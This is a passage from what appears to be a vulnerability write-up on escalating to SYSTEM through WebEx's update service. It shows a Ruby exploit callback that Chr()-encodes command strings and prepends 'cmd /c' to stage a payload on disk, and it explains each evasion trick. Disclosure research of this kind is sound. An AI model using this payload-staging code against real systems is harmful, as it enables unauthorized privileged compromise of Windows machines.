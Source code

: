 <tt>execute\_cmdstager()</tt> will execute <tt>execute\_command()</tt> over and over to build the payload on-disk, which is where we fix the final issue:

```
<span class="Comment"># This is the callback for cmdstager, which breaks the full command into</span>
<span class="Comment"># chunks and sends it our way. We have to do a bit of finangling to make it</span>
<span class="Comment"># work correctly</span>
<span class="Statement">def</span> <span class="Function">execute_command</span>(command, opts)
  <span class="Comment"># Replace the empty string, "", with a workaround - the first 0 characters of "A"</span>
  command = command.gsub(<span class="rubyStringDelimiter">'</span><span class="String">""</span><span class="rubyStringDelimiter">'</span>, <span class="rubyStringDelimiter">'</span><span class="String">mid(Chr(65), 1, 0)</span><span class="rubyStringDelimiter">'</span>)

  <span class="Comment"># Replace quoted strings with Chr(XX) versions, in a naive way</span>
  command = command.gsub(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">"</span><span class="Special">[^</span><span class="rubyRegexp">"</span><span class="Special">]</span><span class="Special">*</span><span class="rubyRegexp">"</span><span class="rubyStringDelimiter">/</span>) <span class="Statement">do</span> |capture|
    capture.gsub(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">"</span><span class="rubyStringDelimiter">/</span>, <span class="rubyStringDelimiter">""</span>).chars.map <span class="Statement">do</span> |c|
      <span class="rubyStringDelimiter">"</span><span class="String">Chr(</span><span class="rubyInterpolationDelimiter">#{</span>c.ord<span class="rubyInterpolationDelimiter">}</span><span class="String">)</span><span class="rubyStringDelimiter">"</span>
    <span class="Statement">end</span>.join(<span class="rubyStringDelimiter">'</span><span class="String">+</span><span class="rubyStringDelimiter">'</span>)
  <span class="Statement">end</span>

  <span class="Comment"># Prepend "cmd /c" so we can use a redirect</span>
  command = <span class="rubyStringDelimiter">"</span><span class="String">cmd /c </span><span class="rubyStringDelimiter">"</span> + command

  execute_single_command(command, opts)
<span class="Statement">end</span>
```

First, it replaces the empty string with <tt>mid(Chr(65), 1, 0)</tt>, which works out to characters 1 - 1 of the string "A". Or the empty string!

Second, it replaces every other string with <tt>Chr(n)+Chr(n)+...</tt>. We couldn't use <tt>&</tt>, because that's already used by the shell to chain commands. I later learned that we can escape it and use <tt>^&</tt>, which works just fine, but <tt>+</tt> is shorter so I stuck with that.

And finally, we prepend <tt>cmd /c </tt> to the command, which lets us echo to a file instead of just passing the <tt>></tt> symbol to the process. We could probably use <tt>^></tt> instead.

In a targeted attack, it's obviously possible to do this much more cleanly, but this seems to be a great way to do it generically!

## Conclusion

So there you have it! Escalating privileges from zero to SYSTEM using WebEx's built-in update service! Local and remote!